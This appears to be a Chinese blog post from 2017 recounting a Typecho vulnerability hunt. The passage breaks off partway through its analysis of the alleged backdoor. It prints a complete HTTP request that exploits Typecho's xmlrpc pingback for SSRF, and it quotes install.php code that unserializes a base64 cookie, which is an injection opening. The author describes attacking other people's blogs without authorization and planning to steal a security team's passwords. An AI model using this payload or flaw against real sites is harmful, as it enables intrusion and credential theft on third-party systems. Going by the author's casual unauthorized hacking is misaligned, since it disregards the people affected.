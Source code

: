 ```yaml
---
title: typecho 后门事件始末
date: '2017-10-13T00:00:00.000Z'
categories: web
tags:
  - php
  - web
---
```


# typecho 事件始末

仓促成文，睡觉。

## 引子

前段时间在日xxxx，无奈实在日不穿，但是发现xxxx的博客系统使用的是typecho，我十一在家陪妹子实在是没事干，就抽了个晚上审了一下typecho，首先发现的一个洞是一个ssrf，由于我手贱打了一下xxxx一位老铁的博客，被他waf抓下来了（当然，之前暗示过他内网服务的问题，可能临时写的针对性waf），然后今天就被放出来了。。。。这个不重要，先放payload出来，没啥好分析的：

```text
POST /index.php/action/xmlrpc HTTP/1.1
Host: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: xxxx
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://127.0.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 178

<?xml version="1.0"?>
<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param><value><string>http://xxxxxx/</string></value></param>
</params></methodCall>
```

然后昨天的时候，tomato师父说，我们直接去日xxxx安全团队的人博客吧，然后在上面抓他们密码。我觉得这个也不是不能搞，并且我十一审代码的时候，发现了代码中有处极其奇怪的地方，但是由于不能在xxxx的博客上直接利用就没深入，但是看了xxxx安全团队的人的博客，发现这个问题可能可以利用，就深入看了眼，没想到追查出一个他们核心开发者在其中放置的后门。

## install.php

install.php在安装后不会默认删除，我们查看其中的逻辑分支会看到这样一段代码：

```text
<?php if (isset($_GET['finish'])) : ?>
                <?php if (!@file_exists(__TYPECHO_ROOT_DIR__ . '/config.inc.php')) : ?>
                ......
                <?php elseif (!Typecho_Cookie::get('__typecho_config')): ?>
                ......
                <?php else : ?>
                    <?php
                    $config = unserialize(base64_decode(Typecho_Cookie::get('__typecho_config')));
                    Typecho_Cookie::delete('__typecho_config');
                    $db = new Typecho_Db($config['adapter'], $config['prefix']);
                    $db->addServer($config, Typecho_Db::READ | Typecho_Db::WRITE);
                    Typecho_Db::set($db);
                    ?>
```
